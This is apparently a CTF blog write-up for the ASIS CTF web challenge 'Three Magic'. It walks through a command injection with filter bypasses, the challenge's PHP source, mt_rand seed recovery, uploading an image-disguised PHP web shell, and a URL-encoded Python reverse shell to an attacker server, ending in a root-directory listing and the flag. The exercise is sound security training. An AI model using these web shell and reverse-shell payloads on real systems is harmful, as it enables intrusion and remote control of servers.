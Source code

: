 ```yaml
---
layout: post
title: ASIS CTF - Three Magic [WEB]
author: pimps
tags: [ctf, asisctf, web]
---
```


 * Competition: ASIS CTF
 * Challenge Name: Three Magic
 * Type: Web
 * Points: 267 pts
 * URL: https://3magic.asis-ctf.ir/3magic/

<!--more-->

The challenge looks like a usual Command Injection but with some filters and restrictions. To confirm the Command Injection we inserted &id into the addr field and we can observe that the command was executed with success:

![alt](https://i.imgur.com/ZxP2UOl.png)

The next step was discover the filters and restrictions. We are able to discover that we can't use: `[space]` or `/` and we have only 15 chars! -_-

Running the commands find and set we discovered some informations of the server:

Result of the command find:

```
.
./index.php
./pages
./pages/ping.php
./pages/Adm1n1sTraTi0n2.php
./files
find: `./files': Permission denied
```

As we can see, we have a folder `/pages` where the .php files of the challenge are stored. A folder `/files` where we can't have access. Finally we can observe also a new page: `Adm1n1sTraTi0n2.php`

![alt](https://i.imgur.com/uL1tJDf.png)

First step was try to upload a .php shell and we could observe that exist some filter (not so fast mate :-p). Uploading a image we could observe that the challenge accepted the image but just returned like the result of a command `file image.png` but don't let us know where the file was saved... Ok lets step back and try read the source code of the .php files in the challenge!

Since we can't use the characters `[space]` or `/` I used the following payload `{command,param1,param2,...}`. So to grep the content of the files recursively I used: `&{grep,-nrw,.}`

Here is the codes of the challenge:

```php
index.php
---------
<title>3magic</title>
  <li>
    <a href='?page=ping'>ping</a>
  </li>
  <?php
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
  ?>
      <li>
      <a href='?page=Adm1n1sTraTi0n2'>admin</a>
      </li>
  <?php
    }
  ?>
  <hr>
  <?php
  if (isset($_GET['page'])) {
    $p = $_GET['page'];
    if (preg_match('/(:\/\/)/', $p)) {
      die('attack detected');
    }
    include("pages/".$p.".php");
    die();
  }
  ?>
ping.php
--------
<p>ping</p>
<form action="./?page=ping" method="POST">
  <input type="text" name="addr" placeholder="addr">
  <input type="submit" value="send">
</form>
<textarea style="width: 300px; height: 300px" placeholder="result">
<?php
if (isset($_POST['addr'])) {
  $addr = $_POST['addr'];
  if (preg_match('/[`;$()| \/\'>"\t]/', $addr)) {
    die("invalid character detected");
  }
  if (strpos($addr, ".php") !== false){
    die("invalid character detected");
  }
  if (strlen($addr) > 15) {
    die("addr is too long");
  }
  @system("timeout 2 bash -c 'ping -c 1 $addr' 2>&1");
}
?>
</textarea>
```

```php
Adm1n1sTraTi0n2.php
-------------------
<p>image inspector</p>
<?php
mt_srand((time() % rand(1,10000) + rand(2000,5000))%rand(1000,9000)+rand(2000,5000));
// files directory flushed every 3min
setcookie('test', mt_rand(), time(), '/');
if (isset($_POST['submit'])) {
  $check = getimagesize($_FILES['file']['tmp_name']);
  if($check !== false) {
    echo 'File is an image - ' . $check['mime'];
    $filename = '/var/www/html/3magic/files/'.mt_rand().'_'.$_FILES['file']['name']; // prevent path traversal
    move_uploaded_file($_FILES['file']['tmp_name'], $filename);
    echo "<br>\n";
    system('/usr/bin/file -b '.escapeshellarg($filename));
    echo "<br>\n";
  } else {
    echo "File is not an image";
  }
}
?>
<form action="?page=Adm1n1sTraTi0n2" method="post" enctype="multipart/form-data">
  Select image to upload:
  <input type="file" name="file">
  <input type="submit" value="Upload Image" name="submit">
</form>
```

Reading the code we can have some conclusions:

 * **Related to index.php:**
    * The parameter page is vulnerable to LFI but we can't abuse this because the installed PHP is already patched against null byte poisoning don't allowing us to use the `%00` to kill the suffix .php and also have a protection to avoid the use of `://` that don't allow us to use any wrappers or filters.
 * **Related to Adm1n1sTraTi0n2.php:**
    * The image check only validates the size of the image via `getsizeimage()` function, and saves the uploaded file with the same name that we sent concatenating with a random value.
    * The app loads the `mt_srand()` when we visit the page with a random seed. After that includes the first `mt_rand()` in the cookie and uses the second mt_rand() to concatenate with the name of the uploaded file and saves the file into the folder `/files`. The code also informs that the folder `/files` is erased every 3 minutes.
The `mt_rand()` have a well-know vulnerability that we can recover the seed from any `mt_rand()` value. To understand better this vulnerability and learn how to attack it please [read this paper](https://www.openwall.com/php_mt_seed/README). You can also download the `php_mt_seed` tool [here](https://download.openwall.net/pub/projects/php_mt_seed/php_mt_seed-3.2.tar.gz)!

With those informations the attack plan is clear:

 * We need upload a .php file that is actually a valid image file with a php code in the end of this image `<?php system($_GET['c']); ?>`. That way we will be able to bypass the `getsizeimage()` and upload a shell.php file to the directory `/files`
 * Get the `mt_rand()` value in the cookie and use the tool php_mt_seed to recover the seed.
 * Print 2 `mt_rand()` using the recovered seed to discover the value concatenated in the `shell.php` file.
 * Access the uploaded `shell.php` file and get a connect back.
 * Do all of those steps in 3 minutes!
 * Uploading the `image.php` shell.

![alt](https://i.imgur.com/acuVPaz.png)

Executing the `php_mt_seed` with the value received in the cookie:

```bash
vagrant@vagrant-ubuntu-trusty-64:~/php_mt_seed-3.2$ ./php_mt_seed 1661750892
Found 0, trying 0 - 33554431, speed 0 seeds per second
seed = 6658
```

Recovering the second `mt_rand()` using the discovered seed.

```bash
vagrant@vagrant-ubuntu-trusty-64:~/ctf$ php -r 'mt_srand(6658); echo mt_rand(), "\n";echo mt_rand();'
1661750892
350321027
```

Getting a python connect-back shell using the uploaded php shell.

```
https://3magic.asis-ctf.ir/3magic/files/350321027_image.php?c=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket%28socket.AF_INET,socket.SOCK_STREAM%29;s.connect%28%28%22[MY_SERVER]%22,80%29%29;os.dup2%28s.fileno%28%29,0%29;%20os.dup2%28s.fileno%28%29,1%29;%20os.dup2%28s.fileno%28%29,2%29;p=subprocess.call%28[%22/bin/sh%22,%22-i%22]%29;%27
```

Receiving the connect-back and dropping a python tty to get the flag.

```bash
root@pimps:~# nc -lvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [66.172.11.62] port 80 [tcp/http] accepted (family 2, sport 52079)
/bin/sh: 0: can't access tty; job control turned off
$
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux web-tasks 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2 (2016-04-08) x86_64 GNU/Linux
$ cd /
$ ls
bin
boot
dev
etc
flag
home
initrd.img
initrd.img.old
lib
lib32
lib64
lost+found
media
mnt
opt
proc
read_flag
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ ./read_flag
Segmentation fault

$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@web-tasks:/$
www-data@web-tasks:/$ ./read_flag
./read_flag
Write "*please_show_me_your_flag*" on my tty, and I will give you flag :)
*please_show_me_your_flag*
*please_show_me_your_flag*
ASIS{015c6456955c3c44b46d8b23d8a3187c}

www-data@web-tasks:/$
```

Hope you enjoyed the reading!



